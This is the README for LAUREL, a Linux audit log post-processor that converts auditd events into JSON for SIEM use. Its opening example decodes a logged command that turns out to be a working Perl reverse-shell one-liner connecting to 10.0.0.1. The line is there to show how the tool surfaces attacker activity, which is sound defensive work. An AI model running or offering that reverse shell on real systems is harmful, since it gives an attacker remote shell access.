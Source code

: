 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source. The generated event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ARGV":["bash"],"ppid":3190631}
```

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## A word about audit rules

A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>, but generally speaking, any ruleset will do. _LAUREL_ will currently only work as designed if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the parent of the process that caused the event. If available, `id` points to the message corresponding to the last `execve` syscall for this process:

``` json
"PARENT_INFO": {
  "ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ARGV": [
    "sh",
    "-c",
    "whoami"
  ],
  "ppid": 1532
}
```

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as keys to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out harmless events.

Consider the following rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
```
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting the single event.

## Installation

See [INSTALL.md](INSTALL.md).

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
